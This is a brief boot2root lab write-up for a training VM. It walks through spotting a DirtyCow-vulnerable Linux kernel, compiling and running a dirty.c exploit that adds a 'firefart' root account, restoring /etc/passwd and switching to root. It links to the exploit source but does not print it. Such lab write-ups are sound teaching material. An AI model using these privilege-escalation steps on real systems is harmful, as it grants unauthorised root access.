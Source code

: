 # Boot2Root -- VacheQuiPue

Starting from `Step 5 - Sanitize`

## Step 5 - Identification
Once we are on the server, we search for potential ways to become root.
After some ID and tests we see that the kernel is vulnerable to the DirtyCow exploit
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The exploit exists on Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
We copy the code from `scripts/dirty.c` on the server, compile it and run it:
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

We wait a little bit, connect as `firefart`, restore the originial `passwd` file and login as root:
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

![polka cow](figs/polka.gif)

## Sources:
Privilege escalation reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation

DirtyCow Exploit: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c

DirtyCow Explanation: https://github.com/thaddeuspearson/Understanding_DirtyCOW